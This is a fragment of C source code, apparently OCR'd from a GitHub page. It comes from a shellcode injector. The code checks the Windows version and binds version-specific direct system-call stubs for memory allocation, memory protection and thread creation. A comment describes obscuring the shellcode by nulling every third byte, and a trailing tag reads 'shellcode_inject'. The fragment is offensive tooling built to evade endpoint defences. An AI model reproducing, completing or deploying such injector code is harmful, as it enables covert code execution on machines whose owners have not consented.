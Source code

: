 ```c
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory7SP1;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory7SP1;
		NtCreateThread = &NtCreateThread7SP1;
		pWinVerInfo->SystemCall = 0x3C;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.2") == 0) {
		lpOSVersion = L"8 or Server 2012";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		exit(1);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		pWinVerInfo->SystemCall = 0x3D;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.3") == 0) {
		lpOSVersion = L"8.1 or Server 2012 R2";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory81;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory81;
		NtCreateThread = &NtCreateThread81;
		pWinVerInfo->SystemCall = 0x3E;
	}
	else {
		wprintf(L"	[!] OS Version not supported.\n\n");
		exit(1);
	}

	/*
	Shellcode 每三个字节替换成\x00 进行加密
	*/
```

[go/shellcode_inject/virtual>>]: generate